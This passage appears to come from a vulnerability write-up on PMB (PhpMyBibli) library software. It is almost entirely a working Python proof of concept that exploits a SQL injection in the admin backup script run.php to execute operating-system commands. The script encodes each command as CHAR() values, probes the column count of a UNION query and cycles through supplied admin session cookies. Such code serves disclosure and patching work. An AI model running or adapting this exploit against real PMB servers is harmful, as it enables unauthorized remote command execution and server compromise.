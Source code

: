 Finally, to automate the exploitation of the SQL Injection to RCE, the following proof of concept was developed, which iterates over a list of session identifiers trying to inject a specific OS command.

```python
#!/usr/bin/env python3
import warnings
warnings.filterwarnings("ignore")
import requests
import sys
import re
import random
import argparse

def exploit(payload, cookies):
    for i in range(1,8):
        columns = "1," * i
        url = "{0}/admin/sauvegarde/run.php?sauvegardes[0]=9999%20OR%201=1%20UNION%20SELECT%20{1},{2},1%20LIMIT%201,1".format(args.pmb_url, columns[:-1], payload)
        print(url)
        print("\n")
        headers = {"Connection": "close"}
        r = requests.get(url, cookies=cookies, headers=headers)

def generate_payload(command):
    command = "external:{0}".format(command)
    ascii_points = [ord(char) for char in command]
    char_points = ','.join(str(point) for point in ascii_points)
    payload = f"GROUP_CONCAT(CHAR({char_points}))"
    return payload


if __name__ == '__main__':
    parser = argparse.ArgumentParser(prog='', description='SQL Injection to RCE in run.php', epilog='Text at the bottom of help')
    parser.add_argument('pmb_url', type=str, help='PMB\'s URL (e.g. http://127.0.0.1/pmb or http://127.0.0.1)')
    parser.add_argument('--sessid', type=str, help='PhpMyBibli-SESSID',required=False)
    parser.add_argument('--sessid_list', nargs='+', help='PhpMyBibli-SESSID',required=False)
    parser.add_argument('--command', type=str, help='Execute custom command',required=False)
    args = parser.parse_args()

    if not args.sessid:
        if not args.sessid_list:
            exit()
    
    sessid_list = []
    
    if args.sessid:
        sessid_list.append(args.sessid)
    elif args.sessid_list:
        sessid_list = args.sessid_list

    for sessid in sessid_list:
        cookies = {"PhpMyBibli-LOGIN": "admin", "PhpMyBibli-SESSID": sessid}
        payload = generate_payload(args.command)
        exploit(payload, cookies)
```
